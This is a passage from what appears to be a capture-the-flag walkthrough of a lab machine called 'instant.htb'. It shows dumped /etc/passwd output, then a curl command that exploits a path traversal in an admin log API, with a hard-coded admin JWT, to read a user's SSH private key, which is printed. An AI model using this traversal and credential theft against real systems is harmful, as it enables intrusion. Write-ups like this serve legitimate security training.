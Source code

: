 ```
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
dhcpcd:x:100:65534:DHCP Client Daemon,,,:/usr/lib/dhcpcd:/bin/false
messagebus:x:101:102::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:992:992:systemd Resolver:/:/usr/sbin/nologin
pollinate:x:102:1::/var/cache/pollinate:/bin/false
polkitd:x:991:991:User for polkitd:/:/usr/sbin/nologin
usbmux:x:103:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:104:65534::/run/sshd:/usr/sbin/nologin
shirohige:x:1001:1002:White Beard:/home/shirohige:/bin/bash
_laurel:x:999:990::/var/log/laurel:/bin/false"],"Status":201}
```

- To finally exploit and get a SSH connection, we will read the id_rsa private key from `shirohige` user:

```bash
$: curl --path-as-is -s -X GET "http://swagger-ui.instant.htb/api/v1/admin/read/log?log_file_name=../../../../../../../../home/shirohige/.ssh/id_rsa" -H  "accept: application/json" -H  "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA"
```

- And to extract the key from the output, we will use again the *sed* command:

```bash
$: curl --path-as-is (...) | sed 's/",/\n/g' | sed 's/^"//g' | sed 's/\\n$//g'
```

```
-----BEGIN OPENSSH PRIVATE KEY-----
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
```